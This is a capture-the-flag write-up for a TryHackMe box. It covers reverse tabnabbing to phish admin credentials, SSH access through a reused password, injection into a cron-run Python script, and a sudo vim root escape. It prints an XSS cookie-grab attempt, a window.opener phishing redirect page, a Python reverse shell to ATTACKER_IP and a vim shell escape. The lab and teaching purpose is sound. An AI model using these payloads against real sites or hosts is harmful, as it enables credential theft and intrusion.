This box is rated medium difficulty on THM. It involves us peforming a reverse tabnabbing attack to steal administrator credentials on a website. That same password is reused over SSH where we can inject code into an automated Python script and abuse Sudo privileges to escalate privileges to root user.

_Even Admins can fall asleep on the job_

## Scanning & Enumeration
First things first, I run an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,80 -sCV 10.67.130.102 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-28 23:15 CST
Nmap scan report for 10.67.130.102
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 89:64:58:4a:b0:2c:38:74:6f:ee:5a:0a:5e:77:18:3d (RSA)
|   256 2f:58:68:a6:b8:01:da:fd:ea:ac:00:43:93:38:df:19 (ECDSA)
|_  256 77:a7:f9:35:c1:52:fd:2a:30:35:6b:a7:47:14:fc:c0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.32 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

Not a whole lot we can do with that version of SSH without credentials, so I fire up Gobuster to search for subdirectories/subdomains in the background before heading over to the website. 

Checking out the landing page shows a typical login panel. Attempting to use default credentials such as `admin:admin` doesn't work and it seems that verbose errors are also disabled, so we can't enumerate users this way.



We are allowed to register as a user on the page which I go ahead and do to have a look around the site internally. This gives us a few things right off the bat, our username is reflected to the page, we have a reset password function to play around with, and finally a field to submit URLs for an admin to review.



Checking out how the site keeps track of our login reveals a normal cookie named `PHPSESSID` that luckily has the HttpOnly flag set to false. It's pretty obvious that we'll have to perform some type of Cross-Site Scripting attack to hijack an admin session, but I want to rule out some other possibilities for fun.

As our username is reflected to the page, if we're allowed to supply special characters whilst registering, it could mean some kind of SSTI or means of XSS if anyone were to visit a page including it. Unfortunately, both the login and registration pages sanitize all special characters, meaning that SQL Injection and the aforementioned attacks won't work here.



Next up is the reset password function. Capturing a request to that endpoint shows that no data is being sent over the network which means that it probably uses our cookie to find which user we are. To the best of my knowledge, this isn't vulnerable to anything for now, but if we were to get another users session it may be possible to reset their password.



Lastly is the field for inputting our URLs at. At first, I tried a simple XSS payload that would send the admin to our own web server and document their cookie to hijack their session.


```
<script>new Image().src='http://192.168.144.73;</script>
```


A few attempts later using similar payloads as well as ones bypassing potential WAFs in place yielded no results, however the field was expecting a URL and when supplied, the site would redirect us to Google. That meant that it was possible to force the server to reach our machine which could be quite dangerous.

## Reverse Tabnabbing to Grab Credentials
Checking the source code after viewing what we supplied as the URL shows something interesting. Along with our site, I discover the target attribute appended which is used to open the link in a new tab.



I wasn't too sure how to go about exploiting this, so I hopped over to Google in order to research common vulnerabilities that arise when this attribute is in use. This rewards me with a result that looks very similar to what's happening on the target site.



Reverse Tabnabbing is a type of phishing attack that takes advantage of how modern browsers handle links opened in new tabs. When a website uses the `target='_blank'` attribute, the linked page opens in a new tab, but it also retains a reference back to the original page through the browser's `window.opener` object. 

A malicious page can abuse this relationship by silently changing the original tab's content or redirecting it to a fake login page that looks legitimate. If the user later returns to that tab, they may believe they were logged out naturally and re-enter their credentials, unknowingly handing them over to an attacker. This risk exists whenever `target='_blank'` is used without proper protections, which is why modern security guidance recommends adding `rel='noopener noreferrer'` to prevent the newly opened page from being able to manipulate the original one.

Refer to [OWASP's disclosure article](https://owasp.org/www-community/attacks/Reverse_Tabnabbing) for more information regarding these attacks.

So, knowing that it's possible to host a phishing login page by supplying the field with an attacker-owned website and that an admin is regularly checking the page, we may be able to grab credentials sent at login. First we'll need a copy of the login page which will be used to trick the admin into "signing in again". During earlier enumeration, I found a `login.php` page under the `/admin` directory and when navigated to, prompted a similar login as the original.

```
$ gobuster dir -u http://10.67.130.102/admin/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x php
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.67.130.102/admin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/.html.php            (Status: 403) [Size: 278]
/.html                (Status: 403) [Size: 278]
/login.php            (Status: 200) [Size: 1158]
/.htm                 (Status: 403) [Size: 278]
/.htm.php             (Status: 403) [Size: 278]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/.                    (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/welcome.php          (Status: 302) [Size: 0] [--> login.php]
/.phtml               (Status: 403) [Size: 278]
```

After copy/pasting that to a local file called `login.html`, we'll also need another file that will abuse the `window.opener` object which will open the fake login page. Note that this should point towards our first file to work properly.


```
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Click Me Please</title>
  </head>
  <body>
    <script>
      window.opener.location = "http://192.168.144.73/login.html";
    </script>
  </body>
</html>
```


Finally, we host them on our machine using something like a Python web server and wait for the admin load it. Since we didn't use any code to display it neatly, we'll need to inspect the POST request made to `login.html` in order to find valid credentials.



Waiting a moment rewards us with a plaintext password for Daniel's account which also works over SSH to grab a shell on the system. 

## Privilege Escalation
At this point, we can focus on looking at routes to escalate privileges. Some light enumeration shows another user on the box named Adrian and that we have access to write to one his scripts since we're apart of the administrators group.



### Command Injection in Script
Taking a look at the script shows that it just logs the status of the site to another text file within his home directory.



Judging by the output, this is being executed every minute by a cronjob or automated process. Since we have write permissions to it, we can simply append a python reverse shell towards our box to pivot users and grab a shell as Adrian.

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```

### Sudo Misconfiguration
At this point we can grab the user flag under his home directory and begin the search for something to leverage in order to pop a root shell.



Listing Sudo privileges shows that Adrian can run the vim binary as root user without a password. This means that we can literally choose which file to edit/read and steal contents from it, however we can also just spawn a root shell by use of the binary's ability to spawn an interactive shell inside of the terminal. To do so, we just need to enter a vim terminal while running Sudo and enter `:!/bin/bash` which will escalate our privileges to whomever the process is ran as (root).



Finally grabbing the root flag under `/root` directory completes this challenge. Overall, I really liked this box because the web portion was a particularly unique exploit. I hope this was helpful to anyone following along or stuck and happy hacking!
